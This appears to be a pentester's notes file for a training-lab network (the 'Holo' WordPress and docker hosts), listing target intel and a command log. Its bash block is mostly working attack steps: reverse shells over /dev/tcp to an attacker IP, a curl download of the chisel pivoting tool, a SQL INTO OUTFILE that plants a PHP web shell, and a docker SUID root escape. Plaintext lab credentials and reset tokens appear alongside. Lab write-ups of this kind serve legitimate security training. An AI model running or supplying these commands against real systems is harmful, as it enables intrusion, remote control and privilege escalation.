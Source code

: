 # Intel

## L-SRV01
IP: 10.200.107.33
OS: Linux
Hostname:
Domain: 
VHost: www.holo.live holo.live admin.holo.live dev.holo.live
Domain SID:
Machine Purpose: Web Server Wordpress
Services:
Service Languages: PHP




## Objectives
What do have in the solutions inventory to meet large network objective?

## Solution Inventory Map
Section to solve 
 


## Data 

#### Credentials

#### Intel

#### Local Inventory



### Todo

### Done

```bash
# login in to 
http://admin.holo.live/index.php
# admin:DBManagerLogin!
http://admin.holo.live/dashboard.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/443+<%261'

# Setup proxychains and chisel
./chisel server -p 8888 --reverse
# curl chisel run client 
curl http://10.50.103.12/chisel-l -o chisel-l
./chisel client 10.50.103.91:8888 R:socks

proxychains mysql -h 192.168.100.1 -u admin -p
# !123SecureAdminDashboard321!
use DashboardDB;
# required create RCE on docker host
# if it does not exist

select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/nvmcmd.php';

proxychains curl "http://192.168.100.1:8080/nvmcmd.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/445+<%261'"

sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh

```

reset for admin: 
```
b69a9e454439e1316427e518adcd887c38e8d0bbaebbdaf4831daf99431f698d93a3142e87eaca7ad4b315d18be7b0019d02
```

reset for gurag: 
```
09f7ab735e40f816e5913df5e157a0b271d1fd8c3665986bc782485322f06ee1fd2b5c5420594171050047280da9fcdeb80e
```

Set in the url to the `user_token=`  on requesting gurag password. 

https://www.youtube.com/watch?v=PqnnKMU3XMk 3:48 fin